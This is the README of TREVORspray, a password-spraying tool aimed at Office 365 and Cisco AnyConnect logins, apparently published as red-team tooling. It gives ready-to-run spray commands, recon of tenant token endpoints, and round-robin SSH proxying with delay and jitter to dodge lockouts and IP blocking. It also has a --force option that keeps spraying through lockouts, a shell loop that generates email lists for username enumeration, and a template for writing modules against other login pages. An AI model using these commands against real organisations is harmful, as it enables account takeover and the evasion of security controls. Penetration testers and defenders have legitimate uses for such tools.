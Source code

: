# TREVORspray 2.0
TREVORspray is a modular password sprayer with threading, SSH proxying, loot modules, and more!

By [@thetechr0mancer](https://twitter.com/thetechr0mancer)

![trevorspray](https://user-images.githubusercontent.com/20261699/92338226-e366d680-f07c-11ea-8664-7b320783dc98.png)

## Features
- Supported modules:
  - `msol` (Office 365)
  - `anyconnect` (Cisco VPN)
  - See below for how to create your own
- Tells you the status of each account: if it exists, is locked, has MFA enabled, etc.
- Automatic cancel/resume (remembers already-tried user/pass combos in `~/.trevorspray/tried_logins.txt`)
- Round-robin proxy through multiple IPs with `--ssh`
- Automatic infinite reconnect/retry if a proxy goes down (or if you lose internet)
- Spoofs `User-Agent` and other signatures to look like legitimate auth traffic
- Logs everything to `~/.trevorspray/trevorspray.log`
- Saves valid usernames to `~/.trevorspray/valid_usernames.txt`
- Optional `--delay` and `--jitter` between request to bypass lockout countermeasures

## Installation:
```
$ git clone https://github.com/blacklanternsecurity/trevorspray
$ cd trevorspray
$ pip install -r requirements.txt
```

## How To - O365
- First, get a list of emails for `corp.com` and perform a spray to see if the default configuration works. Usually it does.
- If TREVORspray says the emails in your list don't exist, don't give up. Get the `token_endpoint` with `--recon corp.com`. The `token_endpoint` is the URL you'll be spraying against (with the `--url` option).
- It may take some experimentation before you find the right combination of `token_endpoint` + email format.
    - For example, if you're attacking `corp.com`, it may not be as easy as spraying `corp.com`. You may find that Corp's parent company Evilcorp owns their Azure tenant, meaning that you need to spray against `evilcorp.com`'s `token_endpoint`. Also, you may find that `corp.com`'s internal domain `corp.local` is used instead of `corp.com`.
    - So in the end, instead of spraying `bob@corp.com` against `corp.com`'s `token_endpoint`, you're spraying `bob@corp.local` against `evilcorp.com`'s.

## Example: Perform recon against a domain (retrieves tenant info, autodiscover, mx records, etc.)
```bash
trevorspray.py --recon evilcorp.com
...
    "token_endpoint": "https://login.windows.net/b439d764-cafe-babe-ac05-2e37deadbeef/oauth2/token"
...
```

## Example: Spray against discovered "token_endpoint" URL
```bash
trevorspray.py -u emails.txt -p 'Fall2021!' --url https://login.windows.net/b439d764-cafe-babe-ac05-2e37deadbeef/oauth2/token
```

## Example: Spray with 5-second delay between requests
```bash
trevorspray.py -u bob@evilcorp.com -p 'Fall2021!' --delay 5
```

## Example: Spray and round-robin between 3 IPs (the current IP is also used, unless `-n` is specifiied)
```bash
trevorspray.py -u emails.txt -p 'Fall2021!' --ssh root@1.2.3.4 root@4.3.2.1
```

## Example: Find valid usernames without OSINT >:D
```bash
# clone wordsmith dataset
wget https://github.com/skahwah/wordsmith/releases/download/v2.1.1/data.tar.xz && tar -xvf data.tar.xz && cd data

# order first initial by occurrence
ordered_letters=asjmkdtclrebnghzpyivfowqux

# loop through first initials
echo -n $ordered_letters | while read -n1 f; do
  # loop through top 2000 USA last names
  head -n 2000 'usa/lnames.txt' | while read last; do
    # generate emails in f.last format
    echo "${f}.${last}@evilcorp.com"
  done
done | tee f.last.txt

trevorspray.py -e f.last.txt -p 'Fall2021!'
```

## TREVORspray - Help:
```
$ ./trevorspray.py --help
usage: trevorspray [-h] [-u USERS [USERS ...]] [-p PASSWORDS [PASSWORDS ...]] [-r DOMAIN [DOMAIN ...]] [-f] [-d DELAY] [-j JITTER] [--url URL] [-v] [-s USER@SERVER [USER@SERVER ...]]
                   [-i KEY] [-b BASE_PORT] [-n] [-nl] [-m {anyconnect,msol}] [-t TIMEOUT]

Execute password sprays against O365, optionally proxying the traffic through SSH hosts

optional arguments:
  -h, --help            show this help message and exit
  -u USERS [USERS ...], --users USERS [USERS ...]
                        Usernames(s) and/or file(s) containing usernames
  -p PASSWORDS [PASSWORDS ...], --passwords PASSWORDS [PASSWORDS ...]
                        Password(s) that will be used to perform the password spray
  -r DOMAIN [DOMAIN ...], --recon DOMAIN [DOMAIN ...]
                        Retrieves info related to authentication, email, Azure, Microsoft 365, etc.
  -f, --force           Forces the spray to continue and not stop when multiple account lockouts are detected
  -d DELAY, --delay DELAY
                        Sleep for this many seconds between requests
  -j JITTER, --jitter JITTER
                        Add a random delay of up to this many seconds between requests
  --url URL             The URL to spray against
  -v, --verbose, --debug
                        Show which proxy is being used for each request
  -s USER@SERVER [USER@SERVER ...], --ssh USER@SERVER [USER@SERVER ...]
                        Round-robin load-balance through these SSH hosts (user@host) NOTE: Current IP address is also used once per round
  -i KEY, -k KEY, --key KEY
                        Use this SSH key when connecting to proxy hosts
  -b BASE_PORT, --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
  -n, --no-current-ip   Don't spray from the current IP, only use SSH proxies
  -nl, --no-loot        Don't execute loot activites for valid accounts
  -m {anyconnect,msol}, --module {anyconnect,msol}
                        Spray module to use (default: msol)
  -t TIMEOUT, --timeout TIMEOUT
                        Connection timeout in seconds (default: 10)
```

## Writing Spray Modules
Writing modules is pretty straightforward. Create a new `.py` file in `lib/sprayers` (e.g. `lib/sprayers/example.py`), and specify the HTTP method and any other parameters
~~~python
from .base import BaseSprayModule

class SprayModule(BaseSprayModule):

    # HTTP method
    method = 'POST'
    # default target URL
    default_url = 'https://login.evilcorp.com/'
    # body of request
    body = 'user={username}&pass={password}&group={otherthing}'
    # HTTP headers
    headers = {}
    # HTTP cookies
    cookies = {}
    # Don't count nonexistent accounts as failed logons
    fail_nonexistent = False

    headers = {
        'User-Agent': 'Your Moms Vibrator',
    }

    def initialize(self):
        '''
        Prep for 
        '''
        self.miscparams = {
            'otherthing': input('What is the other thing?')
        }
        return True

    def check_response(self, response):
        '''
        returns (valid, exists, locked, msg)
        '''

        valid = False
        exists = None
        locked = None
        msg = ''

        if getattr(response, 'status_code', 0) == 200:
            valid = True
            exists = True
            msg = 'Valid cred'

        return (valid, exists, locked, msg)
~~~

CREDIT WHERE CREDIT IS DUE - MANY THANKS TO:
- [@dafthack](https://twitter.com/dafthack) for writing [MSOLSpray](https://github.com/dafthack/MSOLSpray)
- [@Mrtn9](https://twitter.com/Mrtn9) for his Python port of [MSOLSpray](https://github.com/MartinIngesen/MSOLSpray)
- [@KnappySqwurl](https://twitter.com/KnappySqwurl) for being a splunk wizard

![trevor](https://user-images.githubusercontent.com/20261699/92336575-27071380-f070-11ea-8dd4-5ba42c7d04b7.jpeg)

`#trevorforget`